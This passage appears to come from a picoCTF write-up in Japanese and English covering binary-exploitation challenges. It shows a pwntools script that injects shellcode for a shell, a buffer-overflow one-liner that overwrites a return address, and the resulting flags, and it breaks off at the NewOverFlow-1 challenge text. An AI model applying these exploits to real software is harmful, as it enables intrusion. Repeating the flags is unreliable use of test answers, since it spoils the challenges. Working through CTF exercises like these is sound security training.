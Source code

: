 ```Python
#!/usr/bin/env python
from pwn import *

sh = process('./vuln')

sh.sendlineafter('Enter your shellcode:\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()
```

Flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}`



<br /><br />
<br /><br />
# [Binary Exploitation]: OverFlow 1 (150 points)
- - -
## Challenge
> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program?
<br /><br />
Hint: Take control that return address
<br />
Hint: Make sure your address is in Little Endian.

Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
## Solution
offsetを求めて、飛びたい関数に飛ぶだけ。

```
$ (python -c 'print("A"*76+"\xE6\x85\x04\x08")' ; cat - ) | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn57f5688e7}
```

Flag: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn57f5688e7}`




<br /><br />
<br /><br />
# [Binary Exploitation]: NewOverFlow-1 (200 points)
- - -
## Challenge
> Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program.
<br /><br />
Hint: Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes
